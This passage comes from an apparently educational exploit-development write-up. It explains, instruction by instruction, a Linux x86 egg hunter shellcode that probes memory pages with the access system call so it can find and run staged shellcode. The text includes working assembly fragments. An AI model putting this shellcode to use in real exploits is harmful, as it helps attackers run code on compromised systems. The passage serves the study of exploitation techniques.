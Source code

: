 Through the general processes explained above, the egg will eventually be found in memory and the shellcode immediately following the egg will be executed.

#### Analysis
The egg hunter shellcode will be explained below. The assembly code will come first, followed by an explanation of the instructions.

```nasm
xor edx, edx        ; clear EDX
```

First, the `EDX` register is cleared using the `XOR` instruction. The `XOR` instruction has been explained in a previous post. In general terms, when the `XOR` instruction specifies the same register for both target and destination, the register will be cleared.

```nasm
;sets EDX to PAGE_SIZE-1
align_page:
or dx, 0xfff        ; sets EDX to fff; e.g. 0x0fff, 0x1fff

inc_address:
inc edx             ; increases EDX by one; e.g. 0x1000, 0x2000, 0x2001
```

The instructions above are referenced by two labels. First, the `align_page` label is followed by the `OR DX, 0XFFF` instruction. This results in the `DX` register being set to `fff` which is equal to `4095` in decimal, or `PAGE_SIZE-1`. Since `PAGE_SIZE` is the smallest unit of data for memory management in virtual address space, it can be assumed that the egg and the subsequent shellcode will exist in one memory page. The instruction following the `inc_address` label increases `EDX` by one. This label is used multiple times within the complete shellcode and has dual functionality in the sense that it "turns" the page if the address referenced through `access` is invalid as well as shifts the `SCASD` comparison window by 1 byte when a valid memory page is found.

```nasm
; preparation for SYS_access
; int access(const char *pathname, int mode);
lea ebx, [edx+0x4]  ; pathname
push byte 0x21      ; system call number for access
pop eax             ; 0x21
int 0x80            ; software interrupt; returns 0xfffffff2 on EFAULT
```

Now, the registers are set for the `access` system call. Once the memory page has been aligned, its value is stored in `EDX`. Therefore, the value of `EDX+0x4` is passed as the first argument to `access` through `EBX` with the intention of testing whether the page is a valid range in virtual address space. Next, the system call number for `access` in hexadecimal is pushed to the stack, and immediately removed from the stack and stored in the `EAX` register which specifes the `access` system call to the following software interrupt `INT 0x80`. If the memory address specified in `EBX` is invalid, the `EFAULT` error value is returned in `EAX`.

```nasm
; compare return value of SYS_access to find writable page
cmp al, 0xf2        ; sets ZF when comparison is true
jz align_page       ; jumps to align_page when ZF is set
```
